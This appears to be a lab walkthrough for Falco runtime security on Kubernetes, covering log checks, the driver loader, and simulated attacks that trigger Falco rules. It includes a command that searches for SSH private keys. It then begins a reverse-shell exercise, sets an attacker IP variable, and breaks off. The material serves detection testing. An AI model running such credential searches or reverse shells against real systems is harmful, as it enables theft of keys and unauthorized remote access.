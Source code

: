 Removing the specific event grep, I get a lot of output data: <br/>
It's all regarding some misconfigurations I made on Sidekick earlier:
```
grep falco /var/log/syslog
```

Feb  2 11:22:35 ip-10-0-2-104 containerd[504]: 2023-02-02 11:22:35.741 [WARNING][5655] <br/>
ipam_plugin.go 433: Asked to release address but it doesn't exist. <br/>
Ignoring ContainerID="0f49213dc2015af9c6eda56cd5f5e3d421673b0b986549bed0dac58e87f482b6" <br/>
HandleID="k8s-pod-network.0f49213dc2015af9c6eda56cd5f5e3d421673b0b986549bed0dac58e87f482b6" <br/>
Workload="ip--10--0--2--104-k8s-falcosidekick--ui--5c566c599b--xl446-eth0" <br/>
<br/>
Feb  2 11:22:35 ip-10-0-2-104 containerd[504]: 2023-02-02 11:22:35.741 [INFO][5655] <br/>
ipam_plugin.go 444: Releasing address using workloadID <br/>
ContainerID="0f49213dc2015af9c6eda56cd5f5e3d421673b0b986549bed0dac58e87f482b6" <br/>
HandleID="k8s-pod-network.0f49213dc2015af9c6eda56cd5f5e3d421673b0b986549bed0dac58e87f482b6" <br/>
Workload="ip--10--0--2--104-k8s-falcosidekick--ui--5c566c599b--xl446-eth0"

## Investigating Further

Wait for the Falco pods to be in running state. <br/>
Then, check which source of events is configured.
```
kubectl logs -n falco -l app.kubernetes.io/name=falco -c falco-driver-loader --tail=-1 \
  | grep "* Running falco-driver-loader with"
```

```* Running falco-driver-loader with:``` driver=module, compile=yes, download=yes <br/>
The driver=module confirms that the Kernel Module is being used as the source for syscall events. <br/>
The command returns one log for each pod.

```
kubectl logs -n falco -l app.kubernetes.io/name=falco -c falco-driver-loader --tail=-1 \
  | grep "* Success"
```

```* Success:``` falco module found and inserted <br/>
<br/>

To do so, let's simulate someone trying to sniff for SSH keys. <br/>
Run find on the root home dir, querying for ```"id_rsa"```:

```
find /root -name "id_rsa"
```

This action triggers the rule ```Search Private Keys or Passwords```. <br/> 
Print to stdout the logs with:

```
kubectl logs -n falco -l app.kubernetes.io/name=falco \
  | grep "Warning Grep private keys"
```

Defaulted container "falco" out of: falco, falco-driver-loader (init)

## Random Reverse Shell

Use the terminal in the left to launch the attack. <br/>
From here, retrieve the IP of the machine. <br/>
It will be required to connect to the reserve shell running in the attacker machine:

```
ATTACKER_IP=$(ip route get 1 |awk '{print $7}')